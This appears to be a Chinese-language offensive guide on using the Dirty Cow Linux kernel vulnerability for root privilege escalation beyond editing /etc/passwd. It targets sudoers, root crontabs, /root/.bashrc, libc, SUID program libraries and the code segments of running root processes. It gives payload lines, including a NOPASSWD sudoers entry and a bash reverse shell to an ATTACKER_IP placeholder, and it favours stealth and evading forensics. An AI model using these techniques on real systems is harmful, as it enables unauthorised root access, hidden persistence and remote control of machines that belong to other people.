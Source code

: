 ### 除了修改 `/etc/passwd` 外还可以利用 Dirty Cow 漏洞劫持哪些关键文件或内存区域来实现提权

**一、关键文件劫持**

直接修改 `/etc/passwd` 可能会留下明显的日志和入侵痕迹。以下这些文件提供更隐蔽的提权路径：

**1. 劫持 `sudoers` 文件或其配置片段**

- **目标：** `/etc/sudoers` 或 `/etc/sudoers.d/*` 下的任意配置文件
- **攻击原理：** 利用 Dirty Cow 写入一行配置，允许当前低权限用户无需密码即可执行特定命令或所有命令 (`NOPASSWD: ALL`)
- **Payload 示例：** 写入一行 `user ALL=(ALL) NOPASSWD: ALL`，其中 `user` 是我们当前的低权限用户名
- **优点：** 相比于修改 `passwd` 文件，劫持 `sudoers` **无需重启**或等待登录，权限提升是**即时**的

**2. 劫持 Root 用户的定时任务 (Crontabs)**

- **目标：** `/var/spool/cron/crontabs/root` (在某些发行版上，如 Debian/Ubuntu) 或其他系统级别的 Crontab 文件（如 `/etc/crontab`）
- **攻击原理：** 利用 Dirty Cow 写入一行定时任务，该任务将在下一次执行时以 Root 权限运行我们的 Payload（例如，反弹 Shell 或创建 SUID 文件）
- **优点：** 提供**持久性**和**间接提权**。攻击载荷隐藏在定时任务中，不直接修改系统核心凭证文件

**3. 劫持 Shell 启动文件（持久化）**

- **目标：** Root 用户的 Shell 启动文件，如 `/root/.bashrc` 或 `/root/.profile`
- **攻击原理：** 在这些文件中追加我们的恶意命令。当 Root 用户下一次登录并启动 Shell 时，我们的代码将被执行
- **Payload 示例：** 写入一行 `bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1` (反弹 Root Shell)
- **优点：** 实现了 **持久性**，利用的是用户正常的登录流程

****

**二、利用动态链接库 (Shared Libraries) 劫持**

这是更高级和更隐蔽的利用方法，旨在通过系统级的动态链接机制来触发 Root 权限代码执行。

**1. 劫持系统关键库函数**

- **目标：** **系统关键的动态链接库**，如 `/lib/x86_64-linux-gnu/libc.so.6` 或 `/lib/ld-linux.so.2`
- **攻击原理：** 这是极其危险的利用。利用 Dirty Cow 覆盖这些库文件中**极小的、不常用的函数代码**，用我们的 Shellcode 替换它们。当任何以 Root 权限运行的程序调用到这个被劫持的函数时，我们的 Shellcode 就会以 Root 权限执行
- **优点：** 隐蔽性极高，因为只修改了库中的极小片段，而非整个文件

**2. 劫持 SUID/SGID 程序的依赖库**

- **目标：** 任何以 Root 权限运行的 **SUID/SGID** 程序（如 `/bin/ping`, `/usr/bin/passwd` 等）所依赖的动态链接库
- **攻击原理：** 利用 Dirty Cow 劫持这些 SUID 程序在运行时会加载的一个依赖库文件（例如，`libnss_files.so.2`）。在库中写入恶意代码，当 SUID 程序被执行时，它会加载并执行我们的恶意代码，从而获得 SUID 程序的权限（通常是 Root）

****

**三、内存区域劫持：即时提权**

Dirty Cow 的一个独特之处在于其对**内存区域**的劫持能力，这提供了即时提权的可能性

**1. 劫持 Root 进程的内存空间**

- **目标：** 任何当前正在运行的 **Root 进程**（例如，`sshd`、`crond`、`systemd`）
- **攻击原理：** 尽管不能直接对整个进程内存进行操作，但可以通过读取该进程的 `/proc/[PID]/maps` 文件，找到其 **Text Segment (代码段)** 中映射的内存页。利用 Dirty Cow，覆盖该进程代码段中的某个不常用指令，用 `JMP` 或 Shellcode 替换，从而劫持进程的执行流程
- **优点：** 提权是**即时**的，且不涉及任何文件的磁盘写入，**取证难度极高**